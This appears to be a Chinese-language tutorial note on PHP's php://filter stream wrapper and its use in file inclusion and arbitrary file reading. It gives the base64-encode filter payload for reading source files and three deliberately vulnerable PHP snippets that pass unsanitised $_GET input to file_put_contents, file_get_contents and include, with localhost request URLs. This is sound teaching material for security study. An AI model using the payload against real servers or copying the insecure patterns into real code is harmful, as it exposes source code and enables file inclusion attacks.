 #### php://filter

`php://filter`是一种元封装器,设计用于数据流打开时的筛选过滤应用

这对于一体式的文件函数非常有用,类似`readfile()`,`file()`和`file_get_contents()`,在数据流内容读取之前没有机会应用其他过滤器

```
resource=<要过滤的数据流>     这个参数是必须的,它指定了你要筛选过滤的数据流
read=<读链的筛选列表>         该参数可选,可以设定一个或多个过滤器名称,以管道符(|)分隔
write=<写链的筛选列表>    该参数可选,可以设定一个或多个过滤器名称,以管道符(|)分隔
<；两个链的筛选列表>        任何没有以 read= 或 write= 作前缀 的筛选器列表会视情况应用于读或写链
```

可以运用多种过滤器(字符串/转换/压缩/加密)

例如平时我们用来任意文件读取的payload`php://filter/read=convert.base64-encode/resource=upload.php`

这里读的过滤器为`convert.base64-encode`,就和字面上的意思一样,把输入流`base64-encode`,`resource=upload.php`,代表读取upload.php的内容

这样就可以以base64编码的方式读取文件源代码

[过滤器](https://www.php.net/manual/zh/filters.php)

```php
<?php  
$filename=$_GET["a"];  
$data="ASDF";
file_put_contents($filename, $data);  
?>
```

`http://localhost:32989/?a=php://filter/write=string.tolower/resource=test.txt`

test.txt:`asdf`

---

```php
<?php  
$filename=$_GET["a"];  
echo file_get_contents($filename);  
?>
```

`file_get_contents()`的`$filename`参数不仅仅为文件路径,还可以是一个URL(伪协议)

`http://localhost:32989/?a=php://filter/read=convert.base64-encode/resource=index.php`

index.php的内容以base64编码的方式显示出来

---

```php
<?php  
$filename=$_GET['a'];
include("$filename");
?>
```
